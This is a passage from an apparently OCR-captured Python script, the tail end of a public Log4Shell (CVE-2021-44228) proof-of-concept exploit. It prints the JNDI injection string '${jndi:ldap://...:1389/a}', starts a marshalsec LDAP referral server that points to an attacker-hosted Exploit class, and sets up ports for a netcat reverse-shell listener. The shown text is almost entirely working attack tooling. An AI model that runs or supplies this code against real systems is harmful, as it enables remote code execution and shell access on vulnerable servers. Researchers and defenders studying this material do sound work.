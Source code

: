 ```python
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```
